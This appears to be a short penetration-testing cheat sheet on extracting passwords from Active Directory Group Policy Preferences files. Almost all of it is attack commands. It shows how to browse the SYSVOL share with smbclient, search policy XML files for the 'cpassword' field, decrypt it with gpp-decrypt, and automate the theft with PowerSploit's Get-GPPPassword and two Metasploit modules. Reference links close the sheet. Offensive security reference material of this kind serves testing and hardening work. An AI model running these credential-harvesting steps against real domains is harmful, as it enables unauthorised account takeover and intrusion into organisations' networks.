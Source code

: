 # GGP (Group Policy Preferences)

* groups.xml
* scheduledtasks.xml
* services.xml
* datasources.xml

## Group Policies Location
```
DC-IP\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\
```

## Access SYSVOL with smbclient
```
smbclient \\\\DC-IP\\SYSVOL –U domain/user
```

## Find cpassword in xml files
```
findstr /S /I cpassword \\<DOMAIN>\sysvol\<DOMAIN>\policies\*.xml
```

## Decrypt GPP password
```
gpp-decrypt <decrypt-password>
```

## Exploiting PowerSploit
```
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

## Exploiting Metasploit
```
auxiliary/scanner/smb/smb_enum_gpp
```
```
post/windows/gather/credentials/gpp
```

## See also
* [Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288)
* [AES Key](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN)
* [Powersploit Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

